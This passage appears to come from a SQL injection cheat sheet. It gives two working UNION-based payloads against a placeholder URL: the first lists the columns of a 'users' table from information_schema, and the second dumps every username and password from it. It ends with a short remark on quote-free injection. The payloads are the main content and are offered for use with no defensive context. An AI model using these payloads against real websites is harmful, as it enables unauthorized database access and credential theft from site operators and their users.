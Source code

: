 ### Getting  table columns

```sql
> http://blabla.com?id=-1' union all select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
```

### Dumping all table data

```sql
> http://blabla.com?id=-1' union all select 1,group_concat(username),group_concat(password) from users --+
```

### No quote injection

It is the same as with quote injection but using \ instead of ' for error detection and not using any thing in injection itself
